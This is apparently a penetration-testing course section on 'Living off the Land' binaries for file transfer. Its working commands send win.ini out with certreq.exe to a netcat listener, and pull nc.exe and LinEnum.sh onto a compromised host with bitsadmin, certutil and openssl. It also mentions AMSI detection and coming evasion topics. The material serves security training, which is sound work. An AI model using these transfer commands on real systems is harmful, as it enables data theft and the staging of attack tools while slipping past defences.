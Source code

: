 The phrase "Living off the land" was coined by Christopher Campbell [@obscuresec](https://twitter.com/obscuresec) & Matt Graeber [@mattifestation](https://twitter.com/mattifestation) at [DerbyCon 3](https://www.youtube.com/watch?v=j-r6UonEkUw).

The term LOLBins (Living off the Land binaries) came from a Twitter discussion on what to call binaries that an attacker can use to perform actions beyond their original purpose. There are currently two websites that aggregate information on Living off the Land binaries:

- [LOLBAS Project for Windows Binaries](https://lolbas-project.github.io/)
- [GTFOBins for Linux Binaries](https://gtfobins.github.io/)

Living off the Land binaries can be used to perform functions such as:

- Download
- Upload
- Command Execution
- File Read
- File Write
- Bypasses

This section will focus on using LOLBAS and GTFOBins projects and provide examples for download and upload functions on Windows & Linux systems.

---

## Using the LOLBAS and GTFOBins Project

[LOLBAS for Windows](https://lolbas-project.github.io/#) and [GTFOBins for Linux](https://gtfobins.github.io/) are websites where we can search for binaries we can use for different functions.

### LOLBAS

To search for download and upload functions in [LOLBAS](https://lolbas-project.github.io/) we can use `/download` or `/upload`.

![image](https://academy.hackthebox.com/storage/modules/24/lolbas_upload.jpg)

Let's use [CertReq.exe](https://lolbas-project.github.io/lolbas/Binaries/Certreq/) as an example.

We need to listen on a port on our attack host for incoming traffic using Netcat and then execute certreq.exe to upload a file.

#### Upload win.ini to our Pwnbox

  Upload win.ini to our Pwnbox

```sh
C:\htb> certreq.exe -Post -config http://192.168.49.128/ c:\windows\win.ini
Certificate Request Processor: The operation timed out 0x80072ee2 (WinHttp: 12002 ERROR_WINHTTP_TIMEOUT)
```

This will send the file to our Netcat session, and we can copy-paste its contents.

#### File Received in our Netcat Session

  File Received in our Netcat Session

```sh
Pwn1Sec@htb[/htb]$ sudo nc -lvnp 80

listening on [any] 80 ...
connect to [192.168.49.128] from (UNKNOWN) [192.168.49.1] 53819
POST / HTTP/1.1
Cache-Control: no-cache
Connection: Keep-Alive
Pragma: no-cache
Content-Type: application/json
User-Agent: Mozilla/4.0 (compatible; Win32; NDES client 10.0.19041.1466/vb_release_svc_prod1)
Content-Length: 92
Host: 192.168.49.128

; for 16-bit app support
[fonts]
[extensions]
[mci extensions]
[files]
[Mail]
MAPI=1
```

If you get an error when running `certreq.exe`, the version you are using may not contain the `-Post` parameter. You can download an updated version [here](https://github.com/juliourena/plaintext/raw/master/hackthebox/certreq.exe) and try again.

### GTFOBins

To search for the download and upload function in [GTFOBins for Linux Binaries](https://gtfobins.github.io/), we can use `+file download` or `+file upload`.

![image](https://academy.hackthebox.com/storage/modules/24/gtfobins_download.jpg)

Let's use [OpenSSL](https://www.openssl.org/). It's frequently installed and often included in other software distributions, with sysadmins using it to generate security certificates, among other tasks. OpenSSL can be used to send files "nc style."

We need to create a certificate and start a server in our Pwnbox.

#### Create Certificate in our Pwnbox

  Create Certificate in our Pwnbox

```shell
Pwn1Sec@htb[/htb]$ openssl req -newkey rsa:2048 -nodes -keyout key.pem -x509 -days 365 -out certificate.pem

Generating a RSA private key
.......................................................................................................+++++
................+++++
writing new private key to 'key.pem'
-----
You are about to be asked to enter information that will be incorporated
into your certificate request.
What you are about to enter is what is called a Distinguished Name or a DN.
There are quite a few fields but you can leave some blank
For some fields there will be a default value,
If you enter '.', the field will be left blank.
-----
Country Name (2 letter code) [AU]:
State or Province Name (full name) [Some-State]:
Locality Name (eg, city) []:
Organization Name (eg, company) [Internet Widgits Pty Ltd]:
Organizational Unit Name (eg, section) []:
Common Name (e.g. server FQDN or YOUR name) []:
Email Address []:
```

#### Stand up the Server in our Pwnbox

  Stand up the Server in our Pwnbox

```shell
Pwn1Sec@htb[/htb]$ openssl s_server -quiet -accept 80 -cert certificate.pem -key key.pem < /tmp/LinEnum.sh
```

Next, with the server running, we need to download the file from the compromised machine.

#### Download File from the Compromised Machine

  Download File from the Compromised Machine

```shell
Pwn1Sec@htb[/htb]$ openssl s_client -connect 10.10.10.32:80 -quiet > LinEnum.sh
```

---

## Other Common Living off the Land tools

### Bitsadmin Download function

The [Background Intelligent Transfer Service (BITS)](https://docs.microsoft.com/en-us/windows/win32/bits/background-intelligent-transfer-service-portal) can be used to download files from HTTP sites and SMB shares. It "intelligently" checks host and network utilization into account to minimize the impact on a user's foreground work.

#### File Download with Bitsadmin

  File Download with Bitsadmin

```powershell
PS C:\htb> bitsadmin /transfer wcb /priority foreground http://10.10.15.66:8000/nc.exe C:\Users\htb-student\Desktop\nc.exe
```

PowerShell also enables interaction with BITS, enables file downloads and uploads, supports credentials, and can use specified proxy servers.

#### Download

  Download

```powershell
PS C:\htb> Import-Module bitstransfer; Start-BitsTransfer -Source "http://10.10.10.32/nc.exe" -Destination "C:\Windows\Temp\nc.exe"
```

---

### Certutil

Casey Smith ([@subTee](https://twitter.com/subtee?lang=en)) found that Certutil can be used to download arbitrary files. It is available in all Windows versions and has been a popular file transfer technique, serving as a defacto `wget` for Windows. However, the Antimalware Scan Interface (AMSI) currently detects this as malicious Certutil usage.

#### Download a File with Certutil

  Download a File with Certutil

```sh
C:\htb> certutil.exe -verifyctl -split -f http://10.10.10.32/nc.exe
```

---

## Extra Practice

It's worth perusing the LOLBAS and GTFOBins websites and experimenting with as many file transfer methods as possible. The more obscure, the better. You never know when you'll need one of these binaries during an assessment, and it'll save time if you already have detailed notes on multiple options. Some of the binaries that can be leveraged for file transfers may surprise you.

In the final two sections, we'll touch upon detection considerations regarding file transfers and some steps we can step to evade detection if the scope of our assessment calls for evasive testing.

